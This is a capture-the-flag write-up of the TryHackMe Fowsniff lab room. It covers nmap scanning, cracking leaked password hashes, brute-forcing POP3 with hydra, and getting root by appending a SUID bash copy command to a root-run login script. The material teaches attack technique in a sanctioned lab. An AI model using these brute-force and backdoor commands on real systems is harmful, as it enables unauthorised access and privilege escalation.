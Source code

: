 ```yaml
---
title: "TryHackMe - Fowsniff CTF"
author: Nasrallah
description: ""
date: 2022-10-13 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, pop3, breach, crack, hydra, bruteforce]
img_path: /assets/img/tryhackme/fowsniff
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Fowsniff CTF](https://tryhackme.com/room/ctf) from [TryHackMe](https://tryhackme.com). Fowsniff suffered from a data breach where username, emails and passwords got leaked, we brute force a mail server using the leaked data and find some credentials. After logging in to the mail server we find an email that gives us ssh credentials granting us a foothold to the machine. After that we find a shell script that's being run every time a user connects to the machine, we exploit that to get root access. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.243.80                                             
Host is up (0.11s latency).                                                   
Not shown: 996 closed tcp ports (reset) 
PORT    STATE SERVICE VERSION                                                                                                                                
22/tcp  open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                                                                                               
|   2048 90:35:66:f4:c6:d2:95:12:1b:e8:cd:de:aa:4e:03:23 (RSA)                                                                                               
|   256 53:9d:23:67:34:cf:0a:d5:5a:9a:11:74:bd:fd:de:71 (ECDSA)
|_  256 a2:8f:db:ae:9e:3d:c9:e6:a9:ca:03:b1:d7:1b:66:83 (ED25519)          
80/tcp  open  http    Apache httpd 2.4.18 ((Ubuntu))                       
| http-robots.txt: 1 disallowed entry                                         
|_/                                                                           
|_http-title: Fowsniff Corp - Delivering Solutions                         
|_http-server-header: Apache/2.4.18 (Ubuntu)                               
110/tcp open  pop3    Dovecot pop3d                                           
|_pop3-capabilities: CAPA USER PIPELINING SASL(PLAIN) TOP RESP-CODES AUTH-RESP-CODE UIDL
143/tcp open  imap    Dovecot imapd                                           
|_imap-capabilities: ID IDLE post-login have SASL-IR listed AUTH=PLAINA0001 LITERAL+ more OK ENABLE Pre-login IMAP4rev1 LOGIN-REFERRALS capabilities
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 4 ports open on an Ubuntu machine, port 22 running OpenSSH, port 80 running an Apache web server, port 110 running Docecot pop3 and port 143 running dovecot imap.

## Web

Let's navigate to the web page.

![](1.png)

The website belongs to **FOWSNIFF CORP**. We can see that they have published some important news.

![](2.png)

There is a data breach of there internal server, and the hackers used the corporation's twitter account to share sensitive information.

![](3.png)

Let's take a look at the twitter account.

![](4.png)

We found a link to a pastebin.

![](5.png)

Let's go to the gihub link.

![](6.png)

We found some usernames, emails and passwords of employees of Fowsniff corp.

The password looks like md5 hashes, so we can crack them easily using [crackstation.net](https://crackstation.net/)

![](7.png)


# **Foothold**

Let's create a list of usernames and passwords we cracked.

![](8.png)

Using the lists, let's brute force the pop3 service using `hydra`.

```hydra
hydra -L usernames.lst -P passwords.lst 10.10.243.80 pop3
```

![](9.png)

We got the username and password.

Let's connect the pop3 server using the command `telnet {Target_IP} 110`, submit the username with `USER {username}` and password with `PASS {password}`.

We can list the available messages with `LIST` and show a specific message with `RETR n`.

![](10.png)

In one of the emails, we found ssh credentials, let's connect to the machine using them.

![](11.png)

# **Privilege Escalation**

I uploaded a copy of linpeas to the target, run it and got the following.

![](12.png)

There is a file writeable by our group called `cube.sh`, let's take a look at it.

```terminal
baksteen@fowsniff:~$ cd /opt/cube/
baksteen@fowsniff:/opt/cube$ cat cube.sh
printf "
                            _____                       _  __  __  
      :sdddddddddddddddy+  |  ___|____      _____ _ __ (_)/ _|/ _|  
   :yNMMMMMMMMMMMMMNmhsso  | |_ / _ \ \ /\ / / __| '_ \| | |_| |_   
.sdmmmmmNmmmmmmmNdyssssso  |  _| (_) \ V  V /\__ \ | | | |  _|  _|  
-:      y.      dssssssso  |_|  \___/ \_/\_/ |___/_| |_|_|_| |_|   
-:      y.      dssssssso                ____                      
-:      y.      dssssssso               / ___|___  _ __ _ __        
-:      y.      dssssssso              | |   / _ \| '__| '_ \     
-:      o.      dssssssso              | |__| (_) | |  | |_) |  _  
-:      o.      yssssssso               \____\___/|_|  | .__/  (_) 
-:    .+mdddddddmyyyyyhy:                              |_|        
-: -odMMMMMMMMMMmhhdy/.    
.ohdddddddddddddho:                  Delivering Solutions\n\n"

```

This looks like the banner we got when we logged in via ssh, seems like the file is being executed every time someone logs in to the machine via ssh.

I added the following command to the script that would make a copy of bash in /tmp and give it the suid bit.

```bash
echo 'cp /bin/bash /tmp/bash && chmod +s /tmp/bash' >> cube.sh
```

Now we need to exit and reconnect to run our command.

![](13.png)

The script was run by root so we easily got a root shell.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
